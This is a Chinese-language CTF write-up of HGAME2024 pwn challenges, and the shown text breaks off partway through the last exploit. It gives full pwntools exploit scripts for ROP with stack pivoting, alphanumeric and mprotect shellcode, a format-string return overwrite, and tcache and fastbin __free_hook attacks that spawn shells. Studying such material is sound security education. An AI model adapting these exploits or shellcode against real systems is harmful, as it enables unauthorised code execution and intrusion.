



HGAME2024 week1+2 pwn 题目详解

- - -

# HGAME2024 week1+2 pwn 题目详解

## 前置技巧 1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011630-c9e0d0c4-d013-1.png)  
直接运行是运行不了的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011640-cf981efa-d013-1.png)  
因为链接库是绝对路径，所以这里做提前需要改一下，用一下命令即可

```plain
patchelf --set-interpreter
patchelf --replace-needed
```

当然这里要提前找好相应的 libc 和 ld 文件  
下面还是用 Elden Ring Ⅰ这个例子

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011701-dc492266-d013-1.png)  
然后就可以本地运行了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011708-e079b8aa-d013-1.png)

## Elden Ring Ⅰ

### 思路

首先检查一下保护  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011728-ec7427d0-d013-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011732-ef20ace2-d013-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011737-f18c4572-d013-1.png)  
ida 里面看到开了沙箱，然后就是栈溢出，不过只溢出 0x30 字节  
这里用 seccomp-tools 检查沙箱禁了什么函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011746-f6e90bf4-d013-1.png)  
可以看到禁了 execve，所以直接 orw 即可  
首先就是先利用泄露 libc 地址，puts(puts\_got)

```plain
pl = 'a'*0x108 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(0x40125B)
sl(pl)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_addr - libc.sym["puts"]
leak('libc_base ',libc_base)
#duan()
```

这里说一个小技巧，就是我们泄露出来地址，在下断点后，用 vmmap 命令可以确认一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011806-034ba636-d014-1.png)  
然后因为溢出空间不够 orw，所以先来一步栈迁移

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011814-07a0cc16-d014-1.png)

```plain
bss=0x404200
pl='a'*0x100+p64(bss)+p64(0x401276)
s(pl)
pl='a'*0x100+p64(bss+0x100)+p64(0x401276)
s(pl)
```

因为这里偏移是 0x100，所以第二次的 rbp 设置的 bss+0x100

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011826-0f1aa962-d014-1.png)  
第一次输入后，然后在 0x404100 处读入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011834-13b5b19c-d014-1.png)  
'a'\*0x100 先填到 rbp，然后再将 0x404200 处 rbp 设置成 0x404300

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011843-18f91e82-d014-1.png)  
之后 leave ret 后  
就还是沿着 0x404208 执行，也就还是能跳转到 read  
然后就是 read(0,0x404200,0x100)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011856-20d482ae-d014-1.png)  
需要注意的是上面的 rsp 位置显示的是不正确的 (0x404200-->'./flag')，这里直接跑到下面去下断点，然后调试就可以看出来

```plain
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)
s(pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011910-293604ae-d014-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011917-2d61e368-d014-1.png)  
从这里我们就看出第三个 payload 就直接沿着 0x404208 执行了，所以我们也是把'./flag'放在了 0x404200 的位置

```plain
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)
s(pl)
```

然后就得到了本地测试的 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221011941-3bc4dd48-d014-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('139.196.183.57',32391)
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

puts_got = 0x404028#elf.got['puts']
puts_plt = 0x4010C4#elf.plt['puts']
ru("Greetings. Traveller from beyond the fog. I Am Melina. I offer you an accord.\n")
rdi=0x00000000004013e3
ret=0x000000000040101a

pl = 'a'*0x108 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(0x40125B)
sl(pl)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_addr - libc.sym["puts"]
#duan()
leak('libc_base ',libc_base)

open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']

ru("Greetings. Traveller from beyond the fog. I Am Melina. I offer you an accord.\n")

bss=0x404200#elf.bss()+0x100
pl='a'*0x100+p64(bss)+p64(0x401276)
s(pl)
pl='a'*0x100+p64(bss+0x100)+p64(0x401276)

rsi=0x000000000002601f+libc_base
rdx=0x0000000000142c92+libc_base

s(pl)
#duan()
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)

s(pl)
itr()
```

## ezshellcode

### 思路

GLIBC\_2.34，所以这里用的 ubuntu22

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012007-4b60d1f8-d014-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012012-4e2f851e-d014-1.png)  
其实这里就是输入 shellcode

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012020-52eaf9f8-d014-1.png)  
写入的可以直接执行，不过 myread 限制了字符的范围

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012027-576e7806-d014-1.png)  
这里用纯字母数字 shellcode  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012034-5b6aa074-d014-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012040-5ed27b10-d014-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012044-616404c0-d014-1.png)

```plain
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```

不过一开始限制了长度，所以用负数绕过  
这里需要注意一点，就是\\n是不在这个范围内的，所以用 sendline 就会卡住

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012110-70e8af68-d014-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

ru('input the length of your shellcode:')
sl('-1')

ru('input your shellcode:')
shell='Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
#shell='\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
s(shell)

itr()
```

## Elden Random Challenge

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012132-7de98aac-d014-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012136-805e368e-d014-1.png)  
这里第一个 read 是没什么用的，因为就是打印出来输入的 buf，所以直接绕过伪随机数即可  
这里就是以时间为种子的伪随机数

```plain
libcc = cdll.LoadLibrary('./libc.so.6')
libcc.srand(libcc.time(0))

for i in range(99): 
    p.recvuntil("Please guess the number:")
    k = libcc.rand() % 100 + 1
    p.send(chr(k))
```

这里 v6 在程序中储存的是整数，所以这里要输入当前整数对应的 ASCII 字符 (chr)，这样在程序中储存的值大小就一样  
如果不理解，可以在 gdb 里面看一眼，这里我们就输入了个'a\\n'  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012156-8bfb7e52-d014-1.png)  
这里看到是这样比较的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012203-90216f00-d014-1.png)  
其实就是比较的 ASCII 码值  
之后就是写 rop 链了

```plain
pl='a'*0x38+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(0x40125D)
sl(pl)
puts_addr=u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.symbols['puts']
leak('libc_base ',libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

pl=b'a'*0x38 + p64(ret) + p64(rdi) +p64(binsh) + p64(system)
sl(pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012217-98e5c672-d014-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')
libcc = cdll.LoadLibrary('./libc.so.6')
libcc.srand(libcc.time(0))


def duan():
    gdb.attach(p)
    pause()

ru('Menlina: Well tarnished, tell me thy name.\n')
#duan()
#sl("%13$p")

sl('k')

r(8)
stack=u64(p.recv(6).ljust(8,'\x00'))-0xe8

#duan()


for i in range(99): 
    p.recvuntil("Please guess the number:")
    k = libcc.rand() % 100 + 1
    p.send(chr(k))

ru("Here's a reward to thy brilliant mind.\n")

rdi = 0x401423
puts_got = 0x404018
puts_plt = 0x4010B0
ret = 0x040101a
pl='a'*0x38+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(0x40125D)
sl(pl)
puts_addr=u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.symbols['puts']
leak('libc_base ',libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))

pl=b'a'*0x38 + p64(ret) + p64(rdi) +p64(binsh) + p64(system)
sl(pl)

itr()
```

## ezfmt string

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012239-a586336c-d014-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012246-aa1fbcea-d014-1.png)  
过滤字符'p'和's',使用这里就是让用'n'来直接修改  
还给了个后门  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012255-af27429e-d014-1.png)

```plain
pl='%'+str(0x68)+'c%18$hhn'
pl+='%'+str(0x40123d-0x68)+'c%22$n'
sl(pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221012311-b8e7b016-d014-1.png)  
先去修改个栈地址，然后利用 rbp 处的链子去修改返回地址，不过这里概率是 1/16，因为栈地址倒数第二位有 16 种可能，调试的时候无法完全看到改后的位置，直接跑脚本就可以

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

def duan():
    gdb.attach(p)
    pause()
#duan()
ru('the shit is ezfmt, M3?\n')
pl='%'+str(0x68)+'c%18$hhn'
pl+='%'+str(0x40123d-0x68)+'c%22$n'
sl(pl)
#0x40123D
itr()
```

## 前置技巧 2

当本地调试符号和题目用的不一样时

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103448-c8287338-d061-1.png)  
这样调试的时候就会报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103459-ce8f2f0a-d061-1.png)  
当然可以用 chunk 列表去做题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103506-d33d13c8-d061-1.png)  
不过这样太过于麻烦  
show debug-file-directory

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103517-d988a8dc-d061-1.png)  
我们去改一下这个本地文件就行  
先去找到 glibc-all-in-one 里面的.debug

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103528-dfe04532-d061-1.png)  
将 9.14 的 debug 改一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103536-e4eacf52-d061-1.png)

```plain
sudo mv debug debug_2_31_9_14
```

然后把 9.9 的 debug 复制过来即可

```plain
sudo cp -r ~/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/.debug debug
```

然后就可以调试了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103840-52594604-d062-1.png)

## Elden\_Ring\_Ⅱ

### 思路

GLIBC 2.31-0ubuntu9.9  
限制了 0xf 的数量，限制申请的 chunk 小于 0xff，然后有 uaf，有 edit，show 直接泄露 chunk 内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103859-5e0dd00a-d062-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103904-60ef9b00-d062-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103909-63adbd86-d062-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103914-66b446da-d062-1.png)  
然后就很简单了，打 tcachebin 就行

```plain
for i in range(9):
    add(i,0x88)

for i in range(8):
    delete(i)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103937-74676550-d062-1.png)

```plain
edit(8,'/bin/sh\x00')
edit(6,p64(free_hook))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103954-7e665e08-d062-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221103958-813b5048-d062-1.png)  
把 free\_hook 的 chunk 申请一下

```plain
add(10,0x88)
add(11,0x88)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104011-889e00ec-d062-1.png)  
改 hook 为 system

```plain
edit(11,p64(system))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104024-908c97e6-d062-1.png)

```plain
delete(8)#system("/bin/sh")
```

getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104038-98af7196-d062-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=remote('47.100.137.175',30118)
p=process("./pwn")
libc = ELF('./libc.so.6')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

add_idx = 1
delete_idx = 2
show_idx = 4
edit_idx = 3

def choice(cho):
    sla('>',cho)

def add(idx,size):
    choice(add_idx)
    sla('Index: ',idx)
    sla('Size: ',size)

def delete(idx):
    choice(delete_idx)
    sla('Index: ',idx)

def show(idx):
    choice(show_idx)
    sla('Index: ',idx)

def edit(idx,content):
    choice(edit_idx)
    sla('Index: ',idx)
    sla('Content: ',content)

for i in range(9):
    add(i,0x88)

for i in range(8):
    delete(i)

#duan()
show(7)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

edit(8,'/bin/sh\x00')
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))

edit(6,p64(free_hook))
#duan()

add(10,0x88)
add(11,0x88)
#duan()
edit(11,p64(system))
#duan()
delete(8)
p.interactive()
```

## fastnote

### 思路

GLIBC 2.31-0ubuntu9.14  
限制申请大小为 0x80，无 edit，打 fastbin

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104106-a9a9d4dc-d062-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104112-acebe3ec-d062-1.png)

```plain
for i in range(9):
    add(i,0x80,'aaaa')

for i in range(8):
    delete(7-i)

show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)
```

先链入 unsorted bin 里面，泄露 libc

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104125-b5265eac-d062-1.png)

```plain
for i in range(10):
    add(i,0x60,'aaaa')

for i in range(9):
    delete(9-i)

delete(2)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
```

然后在构造 chunk 的重叠

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104138-bcc2501c-d062-1.png)

```plain
add(5,0x60,'/bin/sh\x00')
add(6,0x60,'aaaa')
add(7,0x60,p64(free_hook))
```

把 hook 写上去 (5，6 从 tcachebin 里面取完后，7 遍历 fastbin，链入 tcachebin 再取)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104156-c712f332-d062-1.png)

```plain
add(8,0x60,'aaaa')
add(9,0x60,'aaaa')
add(10,0x60,p64(system))
delete(5)
```

修改完之后 free

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104209-ceeb3ccc-d062-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=remote('47.100.137.175',30134)
p=process("./pwn")
libc = ELF('./libc-2.31.so')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

menu = 'Your choice:'

def add(index, size, content):
    p.sendlineafter(menu, '1')
    p.sendlineafter('Index: ', str(index))
    p.sendlineafter('Size: ', str(size))
    p.sendafter('Content: ', content)


def delete(index):
    p.sendlineafter(menu, '3')
    p.sendlineafter('Index: ', str(index))

def show(index):
    p.sendlineafter(menu, '2')
    p.sendlineafter('Index: ', str(index))

for i in range(9):
    add(i,0x80,'aaaa')

for i in range(8):
    delete(7-i)

show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

for i in range(10):
    add(i,0x60,'aaaa')

for i in range(9):
    delete(9-i)

delete(2)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

for i in range(5):
    add(i,0x60,'aaaa')

add(5,0x60,'/bin/sh\x00')
add(6,0x60,'aaaa')
add(7,0x60,p64(free_hook))


add(8,0x60,'aaaa')
add(9,0x60,'aaaa')
add(10,0x60,p64(system))
delete(5)
'''
'''
#duan()
p.interactive()
```

## ShellcodeMaster

### 思路 1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104234-ddf6fbde-d062-1.png)  
16 字节的 shellcode，而且把 buf 的写入权限关了  
所以 16 字节打开权限和再次写入

```plain
shell1=asm('''
    shl edi,12
    mov dx,0x7
    mov ax,10
    syscall
    cdq
    mov esi,edi
    xor edi,edi
    xor eax,eax
    syscall
''')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104451-2f9bf318-d063-1.png)

```plain
先开个权限，这三行就是
rax:a
rdi：0x2333 左移 3 位-->0x2333000
rsi: 0x2333
rdx：7
mprotect(0x2333000,0x2333,7)
```

然后写 read

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104515-3debbe6c-d063-1.png)  
cdq：把 EDX 的所有位都设成 EAX 最高位的值。也就是说，当 EAX <80000000, EDX 为 00000000；当 EAX >= 80000000，EDX 则为 FFFFFFFF

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104523-42b5ce4c-d063-1.png)  
所以 edx=0xFFFFFFFF  
read(0,0x2333000,0xFFFFFFFF)  
然后把 rsp 设置成有效的地址，然后直接写 orw\_shellcode

```plain
pl=b'\x90'*0x60+asm("shl rsp,0xc;add rsp,0x500;")+orw_shellcode
sl(pl)
```

改 rsp 储存的地址，方便压栈，然后继续执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104547-50de1fc4-d063-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104552-540a896c-d063-1.png)  
orw 的 shellcode 一步一步往下顺就行，这里不做解释了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104559-584355b8-d063-1.png)

### exp1

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process("./pwn")

def duan():
    gdb.attach(p)
    pause()

shell1=asm('''
    shl edi,12
    mov dx,0x7
    mov ax,10
    syscall
    cdq
    mov esi,edi
    xor edi,edi
    xor eax,eax
    syscall
''')

sa('shellcode\n\n',shell1)

orw_shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x30
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
